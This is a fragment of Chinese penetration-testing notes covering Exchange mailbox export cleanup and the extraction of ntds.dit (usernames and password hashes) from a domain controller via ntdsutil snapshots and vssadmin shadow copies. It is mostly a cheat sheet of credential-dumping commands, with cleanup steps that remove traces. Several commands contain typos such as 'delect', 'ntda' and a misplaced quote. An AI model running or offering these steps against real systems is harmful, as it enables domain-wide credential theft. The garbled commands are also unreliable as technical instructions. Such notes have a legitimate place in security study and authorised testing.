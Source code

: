 - 管理导出请求

```
(1)查看之前产生的导出请求记录
Get-MailboxExportRequest

(2)将指定用户已完成导出请求删除
Remove-MailboxExportRequest -Identity Administrtor\mailboxexport

(3)删除所有导出记录
Get-MailboxExportRequest -Status Completed Remove-MailboxExportRequest
```

## 域控制器安全
### 使用卷影拷贝服务器提取ntds.dit
- ntds.dit

```
存储用户名、散列值、组、GPP、Ou等数据库
```
- 通过ntdsutil.exe提取ntds.dit

```
为活动目录提供管理机制的命令行工具
适用于03、08、12
```
```
(1)创建快照
ntdsutil snapshot "activate instance ntda" create quit quit

(2)加载快照
ntdsutil snapshot" mount {GUID} "quit quit

(3)复制快照到本地
copy c:\$xxx\ntds.dit c:\temp\ntds.dit

(4)删除之前加载的快照
ntdsutil snapshot "unmount {GUID}" "delect {GID}" quit quit

(5)查看快照
ntdsutil snapshot "List All" quit quit
```

- 利用vssadmin提取ntds.dit

```
创建和删除卷影拷贝、列出卷影拷贝信息
适用于08、win7
```
```
创建c盘卷影拷贝
vssadmin create shadow /for=c:

复制卷影拷贝
copy ntds.dit c:\ntds.dit

删除快照
vssadmin delect shadow /for=c: /quiet
```
